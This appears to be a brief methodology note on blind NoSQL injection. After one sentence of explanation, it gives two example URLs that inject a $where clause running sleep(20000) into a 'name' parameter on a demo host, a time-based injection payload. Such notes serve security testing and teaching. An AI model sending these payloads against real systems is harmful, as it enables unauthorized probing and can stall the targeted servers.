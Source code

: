 # NoSQL Injection methodology 

### Blind NoSQL Injection
Suppose that the database returned no results in the browser, regardless of us submitting an included Star Wars character or not. So, we are talking about a “blind” 
```
https://demo-campass.obih.sg/?name=A',$where: 'function(){sleep(20000);}'}
https://demo-campass.obih.sg/?name=A,$where: 'function(){sleep(20000);}'}
```
